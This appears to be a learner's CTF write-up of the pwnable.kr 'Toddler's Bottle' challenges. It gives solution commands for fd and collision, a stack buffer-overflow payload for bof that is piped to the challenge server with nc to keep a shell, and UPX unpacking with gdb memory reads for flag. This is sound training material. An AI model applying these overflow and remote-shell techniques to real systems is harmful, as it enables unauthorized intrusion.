Toddler's Bottle
================

Codes: https://gist.github.com/siddharthasahu/f46a965d7ce34a4b24cc

fd
--

A simple one.

* atoi(const char *str): Converts the char stream of digits to int 
* read(int fdes, void *buf, size_t nbyte): Reads `nbytes` bytes into `buf` variable from `fdes` file descriptor. [http://codewiki.wikidot.com/c:system-calls:read]
* Hex to decimal conversions in bash: http://stackoverflow.com/questions/13280131/hexadecimal-to-decimal-in-shell-script

Rest is simply setting the file descriptor to stdin and passing the matching string:  
`echo "LETMEWIN" | ./fd 4660`  
or even better: `echo "LETMEWIN" | ./fd $(printf "%d" 0x1234)`

Pwned!

collision
---------

This one led to a revision of signed vs unsigned integers, data ranges in C and interplay between binary, ASCII and hex.

* New bash commands: `od`, `xxd`, data conversion in `bc`
* Need to take care of byte ordering
* http://stackoverflow.com/questions/9487037/passing-binary-data-as-arguments-in-bash

The trick is to pass in 20 bytes which is picked in the form of 5 ints and added to get the result.

One of the possible answers: `$'\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01'`

bof
---

Finally get to learn buffer overflows!

* Needs gdb debugging skills
* Function call conventions in x86: http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html

Objective is to replace the value of `key`. So basically one needs to calculate the position of the `key` variable in the stack and send an appropriate input so that it replaces `key` with desired data (0xcafebabe in this case).

GDB commands
$ gdb ./bof
(gdb) break func
(gdb) r
(gdb) disassemble

* From `lea    -0x2c(%ebp),%eax` in func+29, we come to know that the position of the `overflowme` variable in the stack, where our input starts getting stored is -0x2c = 44 bytes below the frame pointer (ebp).
* From function calling conventions, stack order is: function arguments -> eip (4 bytes) -> ebp (4 bytes) -> local variables. So position of `key` is 44 + 4 + 4 = 52 bytes from `overflowme` in the stack.
* From above and keeping in mind little endian systems, input can be: "a"*52+$'\xbe'$'\xba'$'\xfe'$'\xca'
* Trying: `echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"$'\xbe'$'\xba'$'\xfe'$'\xca' | nc pwnable.kr 9000`. Does not work.
* I did not solve this, but apparently the above format is closing the shell before commands can be sent.
* Repeat a character in bash: http://stackoverflow.com/questions/5349718/how-can-i-repeat-a-character-in-bash
* Final solution: `(echo $(printf "=%.0s" {1..52};printf "\xbe\xba\xfe\xca");cat) | nc pwnable.kr 9000`

TODO: Investigate why subshell with cat is needed here.

NOTE: If you try to insert a random big input, it gives a "stack smashing detected" error. Interesting to know, but not relevant to this problem, because the hack is in the function itself.

flag
---

Given just a binary, how to analyse!

% `./flag`  
I will malloc() and strcpy the flag there. take it.

% `objdump -D flag`  
flag:     file format elf64-x86-64

So, flag is in the binary itself, but the objdump is not succeeding. Expected that it wouldn't be that easy.  

Lets see if we can extract some strings:  
$ `strings < flag`  
...
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
...

Jackpot! So the binary has been packed. Lets install upx and unpack it.  
$ `upx -d ./flag`

Now we can run normal gdb commands:  
$ `gdb ./flag`
(gdb) break main
(gdb) r
(gdb) disassemble

* So the function copies the global (because of %rip usage) `flag` variable data to the malloc alllocated memory. We just need to find the address of the flag variable.
* We can notice the address gets copied to the %rsi register. So setting a breakpoint after the values are copied, we can extract the address.

(gdb) break *0x401195   => address after values are copied, so after the mov %rdx,%rsi and mov %rax,%rdi commands
(gdb) s
(gdb) p/x $rsi        => eg 0x496628
(gdb) x/100c $rsi     => Printing flag in character form, we get the string.

Fun!
